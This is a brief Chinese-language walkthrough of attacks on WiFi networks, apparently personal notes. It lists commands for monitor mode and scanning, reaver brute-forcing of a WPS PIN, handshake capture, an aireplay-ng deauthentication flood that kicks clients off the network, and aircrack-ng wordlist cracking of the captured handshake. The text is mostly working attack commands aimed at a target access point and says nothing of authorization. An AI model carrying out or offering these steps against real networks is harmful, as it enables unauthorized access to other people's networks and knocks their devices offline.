 ### wifi

****

wifi攻击的几个步骤:

首先将无线网卡进行设置,成监听模式:

sudo airmon-ng start xxxxxxxxxxxxxx

之后进行监听

sudo airodump-ng mon0

之后获取到目标

目标一般有几个状态

**第一个是PIN码开放可以攻击**

reaver -i mon0 -b AP's Mac -vv 进行PIN码的暴力破解

获得到pin后进行破解:

reaver -i mon0 -b AP‘s Mac -p pin

![img](http://d.hiphotos.bdimg.com/album/pic/item/d6ca7bcb0a46f21fbdce556af5246b600c33ae14.jpg)

之后就可以.....

**第二种就是WPS功能没开,只能抓握手包进行暴力破解了**

先抓包 

airodump -ng -c 6 -w ~/git/handshake --bssid xxxxxxxxxxx mon0

之后进行洪水攻击

aireplay-ng -0 10 -a AP的mac地址 -c 你要踢掉的主机的mac地址 mon0

之后得到了握手包进行字典破解

aircrack-ng -a2 -b xxxxxxxxxxxx -w passwd.txt 握手包